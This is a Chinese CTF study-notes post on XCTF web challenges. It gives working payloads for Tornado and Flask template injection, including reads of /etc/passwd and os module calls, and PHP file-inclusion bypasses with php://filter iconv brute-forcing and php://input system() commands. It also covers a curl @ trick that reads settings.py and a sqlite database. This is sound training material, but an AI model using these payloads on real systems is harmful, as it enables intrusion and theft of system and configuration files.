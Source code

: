 ```yaml
---
title: xctf刷题
date: 2023.4.15
updated: 2023.5.10
categories: 网络安全 
tags: ctf
description: xctf刷题记录
---
```

# **模板注入**
## Tornado 框架
### 知识点：
* render函数：通过传递不同的参数形成不同的改变
* tornado render模板注入漏洞：
```
tornado render是python中的一个渲染函数，也就是一种模板，通过调用的参数不同，生成不同的网页，如果用户对render内容可控，不仅可以注入XSS代码，而且还可以通过{{}}进行传递变量和执行简单的表达式。
```
### 得到cookie_secret的值：
```
error?msg={{handler.settings}}
```
*handler.settings是tornado框架的一个附属文件*
## flassk模板注入
### 思路：
找到父类<type 'object'>-->寻找子类-->找关于命令执行或者文件操作的模块。
* 几个魔术方法：
```
__class__  返回类型所属的对象
__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__   返回该对象所继承的基类
// __base__和__mro__都是用来寻找基类的
__subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
__init__  类的初始化方法
__globals__  对包含函数全局变量的字典的引用
## {{}}:
* 传递变量
* 执行一些简单表达式
```
---
* {{config}}：查看全局变量
### 步骤：
1. 寻找可用引用
```
{{''.__class__.__mro__[2].__subclasses__()}}
```
2. 文件读取，`[40]`是tupe file类型出现位置（从0开始的位置）
```
{{ [].__class__.__base__.__subclasses__()[40]('/etc/passwd').read() }}
```
3. 命令执行(有一个 <class ‘site._Printer’>类型)
```
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}
```
* `[71]`为<class ‘site._Printer’>出现位置 
#  2.文件include
* *5.10更新：好久没刷题了，做个md复习一下*
### file_include(过滤)
```php
<?php
highlight_file(__FILE__);
    include("./check.php"); 
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```
* 尝试用php://filter:
>?filename=php://filter/read=convert.base64-encode/reasource=check.php
回显"do not hack!"
那应该是过滤
* 使用过滤器 convert.* (string.*被过滤)
* 构造URL：
>?filename=php://filter/convert.iconv.a.b/resource=flag.php
`flag可能在flag.php`
* 使用bp对a,b进行爆破(集束炸弹)，字典如下：
```
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
```
## web_php_include
```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);//过滤了php://
}
include($page);
?>
```
### 知识点
* 由题可知过滤了php://,考虑使用其它伪协议
* 伪协议包括：
**file协议**：
allow_url_fopen ：off/on
allow_url_include：off/on

file:// `用于访问本地文件系统`，在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响。

**php://协议**:
仅php://input、 php://stdin、 php://memory 和 php://temp 需要开启allow_url_include。

**data://协议**：满足双off条件

* **strstr**函数：
函数用于判断字符串str2是否是str1的子串。如果是，则该函数返回 str1字符串从 str2第一次出现的位置开始到 str1结尾的字符串；否则，返回NULL。
* **str_replace()**函数：
>以其他字符替换字符串中的一些字符（区分大小写）。
例如：把字符串 "Hello world!" 中的字符 "world" 替换为 "Shanghai"：
```php
<?php
echo str_replace("world","Shanghai","Hello world!");
?>
```
本题意思为当传给page的参数有php：//时替换为空
### 解题步骤
1. 使用php：//input
> 构造URL：?page=Php://input //大写绕过
使用bp传入：
a=<?php system('ls');?>a
* playload:
```
a = <?php system('cat fl4gisisish3r3.php');?>
```
# cat
* 并不是命令注入
* 看wp得知
> 未过滤字符在url栏上会被进行url编码
在url栏测试宽字符，即ascii码超过127的url编码即可，也就是%81-%ef
发现任意一个宽字符，都会出现报错信息
*这道题有关一个djiango特性和php特性，没看懂。*
* 解题步骤：
playload1：?url=%80,发现报错，url编码使用的是16进制，80也就是128，ASCII码是从0-127，所以这个时候会报错。
**php特性**：
WP得知php的curl组件请求加上@会读取文件，读取settings.py文件获取数据库名称
* 构造playload2：
?url=@/opt/api/api/settings.py *读取配置文件*
Ctrl+f搜索database
* 构造playload3：
?url=@/opt/api/database.sqlite3
`搜索flag/ctf可得flag`
`最后的flag竟然不包含前面的A`




